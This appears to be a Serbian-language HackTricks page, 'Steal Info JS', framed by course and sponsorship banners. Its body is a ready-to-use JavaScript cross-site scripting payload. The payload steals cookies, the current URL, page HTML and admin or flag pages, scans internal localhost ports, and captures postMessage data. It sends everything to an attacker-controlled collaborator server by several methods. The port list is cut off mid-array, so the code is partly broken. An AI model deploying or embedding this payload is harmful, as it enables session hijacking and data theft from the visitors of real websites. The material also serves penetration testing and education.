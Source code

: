 # Steal Info JS

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE PRETPLATE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

\`\`\`javascript // SELECT HERE THE EXFILTRATION MODE (more than 1 can be selected) // If any GET method is selected (like location or RQ\_GET), it's recommended to exfiltrate each info 1 by 1 var ATTACKER\_SERVER = "https://weecosb5a2k7jc0cwlyksg9qzh57tw.burpcollaborator.net" var EXFIL\_BY\_IMG = false var EXFIL\_BY\_RQ\_GET = false var EXFIL\_BY\_RQ\_POST = true var EXFIL\_BY\_FETCH\_GET = false var EXFIL\_BY\_FETCH\_POST = false var EXFIL\_BY\_NAV = false

var EXFIL\_BY\_LOC = false var ALL\_INFO = "" // Only used by Location exfiltration

// Function to make the data possible to transmit via either GET or POST function encode(text){ return encodeURI(btoa(text)); }

// Functions to exfiltrate the information function exfil\_info(info\_name, text, is\_final=false){ if (EXFIL\_BY\_IMG) exfil\_by\_img(info\_name, text); if (EXFIL\_BY\_RQ\_GET) exfil\_by\_rq\_get(info\_name, text); if (EXFIL\_BY\_RQ\_POST) exfil\_by\_rq\_post(info\_name, text); if (EXFIL\_BY\_FETCH\_GET) exfil\_by\_fetch\_get(info\_name, text); if (EXFIL\_BY\_FETCH\_POST) exfil\_by\_fetch\_post(info\_name, text); if (EXFIL\_BY\_NAV) exfil\_by\_nav(info\_name, text); if (EXFIL\_BY\_LOC){ if (is\_final) exfil\_by\_loc(info\_name, text); else ALL\_INFO += "\n\n" + info\_name + "=" + text; } }

function exfil\_by\_img(info\_name, text){ new Image().src = ATTACKER\_SERVER + "/exfil\_by\_img/" + info\_name + "?" + info\_name + "=" + text }

function exfil\_by\_rq\_get(info\_name, text){ var xhttp = new XMLHttpRequest(); xhttp.open("GET", ATTACKER\_SERVER + "/exfil\_by\_rq\_get/" + info\_name + "?" + info\_name + "=" + text, true); xhttp.send(); }

function exfil\_by\_rq\_post(info\_name, text){ var xhttp = new XMLHttpRequest(); xhttp.open("POST", ATTACKER\_SERVER + "/exfil\_by\_rq\_post/" + info\_name, true); xhttp.send(text); }

function exfil\_by\_fetch\_get(info\_name, text){ fetch(ATTACKER\_SERVER + "/exfil\_by\_fetch\_get/" + info\_name + "?" + info\_name + "=" + text, {method: 'GET', mode: 'no-cors'}); }

function exfil\_by\_fetch\_post(info\_name, text){ fetch(ATTACKER\_SERVER + "/exfil\_by\_fetch\_post/" + info\_name, {method: 'POST', mode: 'no-cors', body: text}); }

function exfil\_by\_nav(info\_name, text){ navigator.sendBeacon(ATTACKER\_SERVER + "/exfil\_by\_nav/" + info\_name, text) }

function exfil\_by\_loc(info\_name, text){ document.location = ATTACKER\_SERVER + "/exfil\_by\_loc/?a=" + encode(ALL\_INFO); }

// Functions to get the data to exfiltrate function exfil\_page\_content(url){ var xhr = new XMLHttpRequest(); xhr.onreadystatechange = function() { if (xhr.readyState == XMLHttpRequest.DONE) { exfil\_info(url, encode(xhr.responseText)); } } xhr.open('GET', url, true); xhr.send(null); }

function exfil\_internal\_port(port){ fetch("http://127.0.0.1:" + port + "/", { mode: "no-cors" }).then(() => { exfil\_info("internal\_port", encode(port)); }); }

// Info to exfiltrate exfil\_info("cookies", encode(document.cookie)); exfil\_info("current\_url", encode(document.URL)); exfil\_info("current\_content", encode(document.documentElement.innerHTML)); exfil\_page\_content("/"); exfil\_page\_content("/admin"); // If 404 nothing will be sent exfil\_page\_content("/flag"); exfil\_page\_content("/flag.txt"); top\_1000 = \[1,3,4,6,7,9,13,17,19,20,21,22,23,24,25,26,30,32,33,37,42,43,49,53,70,79,80,81,82,83,84,85,88,89,90,99,100,106,109,110,111,113,119,125,135,139,143,144,146,161,163,179,199,211,212,222,254,255,256,259,264,280,301,306,311,340,366,389,406,407,416,417,425,427,443,444,445,458,464,465,481,497,500,512,513,514,515,524,541,543,544,545,548,554,555,563,587,593,616,617,625,631,636,646,648,666,667,668,683,687,691,700,705,711,714,720,722,726,749,765,777,783,787,800,801,808,843,873,880,888,898,900,901,902,903,911,912,981,987,990,992,993,995,999,1000,1001,1002,1007,1009,1010,1011,1021,1022,1023,1024,1025,1026,1027,1028,1029,1030,1031,1032,1033,1034,1035,1036,1037,1038,1039,1040,1041,1042,1043,1044,1045,1046,1047,1048,1049,1050,1051,1052,1053,1054,1055,1056,1057,1058,1059,1060,1061,1062,1063,1064,1065,1066,1067,1068,1069,1070,1071,1072,1073,1074,1075,1076,1077,1078,1079,1080,1081,1082,1083,1084,1085,1086,1087,1088,1089,1090,1091,1092,1093,1094,1095,1096,1097,1098,1099,1100,1102,1104,1105,1106,1107,1108,1110,1111,1112,1113,1114,1117,1119,1121,1122,1123,1124,1126,1130,1131,1132,1137,1138,1141,1145,1147,1148,1149,1151,1152,1154,1163,1164,1165,1166,1169,1174,1175,1183,1185,1186,1187,1192,1198,1199,1201,1213,1216,1217,1218,1233,1234,1236,1244,1247,1248,1259,1271,1272,1277,1287,1296,1300,1301,1309,1310,1311,1322,1328,1334,1352,1417,1433,1434,1443,1455,1461,1494,1500,1501,1503,1521,1524,1533,1556,1580,1583,1594,1600,1641,1658,1666,1687,1688,1700,1717,1718,1719,1720,1721,1723,1755,1761,1782,1783,1801,1805,1812,1839,1840,1862,1863,1864,1875,1900,1914,1935,1947,1971,1972,1974,1984,1998,1999,2000,2001,2002,2003,2004,2005,2006,2007,2008,2009,2010,2013,2020,2021,2022,2030,2033,2034,2035,2038,2040,2041,2042,2043,2045,2046,2047,2048,2049,2065,2068,2099,2100,2103,2105,2106,2107,2111,2119,2121,2126,2135,2144,2160,2161,2170,2179,2190,2191,

```javascript
top_1000.forEach(port => exfil_internal_port(port));

if (EXFIL_BY_LOC){
setTimeout(exfil_info("završi", "završi", true), 5000) // eksfiltriraj preko lokacije nakon 5s
}

// Snimi informacije
window.onmessage = function(e){
exfil_info("onmessage", encode(e.data))
}
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE PRETPLATE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
